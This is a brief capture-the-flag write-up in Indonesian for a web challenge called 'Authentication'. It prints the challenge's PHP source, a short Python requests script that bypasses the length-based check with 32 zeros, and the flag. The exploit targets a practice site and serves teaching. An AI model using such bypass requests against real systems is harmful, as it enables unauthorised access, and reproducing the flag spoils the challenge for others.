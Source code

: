 <h1><b>Authentication</b></h1>
<pre>
Challenge kali ini cukup menginputkan apa yang harus diisi. Tidak perlu berpikir keras :D

Challenge --> <a href='https://web.ctf.rasyidmf.com/chal9/'>URL</a>
</pre>
<h3><b>Solution</b></h3>
<p align='justify'>Setelah URL dibuka muncul pesan <b>Lakukan hal yang sama dengan First Challenge.</b> yaitu melakukan inspect element, dan didapatkan link source code <b>/source=1</b></p>
<p align='justify'>Buka URL <b>https://web.ctf.rasyidmf.com/chal9/?source=1</b></p>

```php
<?php
include 'flag.php';
        $input = @$_GET['flag'];

        $ctfr = "d69faaea338ac0073602593fc9416f77"; // MD5 dari CTFR
        if ($input != "") {
            if (strlen($input) > 5) {
                if (date("Y-m-d") != "2025-01-01") {
                    if ($input != "CTFR") {
                        if (strlen($input) == strlen($ctfr)) {
                            if ($input !== $ctfr) {
                                echo "Flag: <b>$flag</b><br>";
                            }
                        }
                    }
                }
            }
        }
?>
```
<p align='justify'>Statment diatas dapat di bypass dengan menginputkan string yang panjangnya 32 digit</p>

```python3
import requests

bypass = '0'*32
flag = requests.get('https://web.ctf.rasyidmf.com/chal9/?flag='+bypass).text
print(flag[9:35])
```
<h3><b>Flag</b></h3>
<pre>
CTFR{b4d_5t4t3m3nt_r1ght?}
</pre>

